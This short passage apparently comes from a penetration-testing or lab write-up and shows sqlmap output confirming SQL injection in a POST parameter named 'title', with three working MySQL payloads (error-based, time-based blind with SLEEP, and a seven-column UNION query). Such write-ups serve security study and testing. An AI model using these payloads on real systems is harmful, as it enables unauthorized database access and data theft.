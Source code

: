 ![SQLMap request](.gitbook/assets/image-20230504194119586.png)

```bash
---
Parameter: title (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: title=example' AND (SELECT 9391 FROM(SELECT COUNT(*),CONCAT(0x716a7a7071,(SELECT (ELT(9391=9391,1))),0x7162717871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'Yvps'='Yvps&action=search

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: title=example' AND (SELECT 6244 FROM (SELECT(SLEEP(5)))dWNC) AND 'Hfwn'='Hfwn&action=search

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: title=example' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a7a7071,0x7463445853774f49666461525a4b446d4a624a706a414976706b56495977444675766767546d6347,0x7162717871),NULL-- -&action=search
---
```
